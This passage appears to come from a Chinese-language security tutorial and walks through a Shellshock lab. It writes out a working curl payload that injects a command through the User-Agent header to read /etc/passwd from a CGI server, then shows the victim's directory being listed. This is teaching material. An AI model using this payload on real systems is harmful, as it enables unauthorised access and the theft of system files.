 我们得到了预期的脚本输出:`Example Page`。

![](img/8d58573d-be6f-4aa7-87f2-7295c2d34e32.png)

15.  现在，让我们向服务器发送一个恶意请求，使用 curl 打印受害者系统的`/etc/passwd`文件的内容:

```sh
    curl -A '() { :;}; echo "Content-type: text/plain"; echo; /bin/cat /etc/passwd' http://192.168.1.104/cgi-bin/example.sh
```

![](img/286f6f8f-0d86-412b-8f02-2b5c9b1b92f7.png)

以下是输出，但被截断:

![](img/f03f7090-e5cf-4b3b-9342-e28e6ab23255.png)

我们可以看到攻击者系统上的输出，向我们展示了如何使用 Shellshock 漏洞远程访问受害者的系统。在前面的命令中，`() { :;} ;`表示看起来像函数的变量。在这段代码中，函数是一个单一的`:`，定义为什么都不做，只是一个简单的命令。

16.  我们将尝试另一个命令来查看受害者系统当前目录的内容，如下所示:

![](img/503b15b4-3af1-4bdc-9bf5-6930547ef025.png)

我们可以在前面的输出中看到受害者系统的`root`目录的内容。

# 它是如何工作的...
